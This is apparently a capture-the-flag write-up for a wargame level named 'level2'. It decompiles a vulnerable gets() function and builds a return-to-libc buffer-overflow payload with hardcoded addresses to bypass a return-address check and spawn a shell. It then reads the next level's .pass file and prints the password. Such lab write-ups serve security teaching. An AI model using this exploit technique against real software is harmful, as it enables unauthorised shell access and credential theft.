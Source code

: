 get the binary on host
* `scp -P 4242 level2@192.168.56.107:./level2 ./binary/level2`

decompile using ghidra

we can use a buffer overflow to run a sh, but we can't pass hexa starting at \xbZ (no Z is valide)
```
	void p(void)
	{
		uint unaff_retaddr;
		undefined local_50 [76];
		
		fflush(stdout);
		gets(local_50)
		if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
			printf("(%p)\n",unaff_retaddr);
							/* WARNING: Subroutine does not return */
			_exit(1);
		}
		puts(local_50);
		strdup(local_50);
		return;
	}
```
To bypass the check, we will add the address of return of function before our payload
* `/bin/sh`	=> 0xb7 f8 cc 58
* `system`	=> 0xb7 e6 b0 60
* `exit`    =>  0xb7 e5 eb e0
* `p ret`   => 0x08 04 85 3e

Using our 80 char array + thoose address we can lauch a new shell.\
This array is `80 char` + `p ret` + `addr system` + `addr exit` + `addr "/bin/sh"`\
`python -c 'print "a"* 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"' > /tmp/exploit_2; cat /tmp/exploit_2 - | ./level2`\
We can input our cat
* `cat /home/user/level3/.pass`
* and get the pass `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`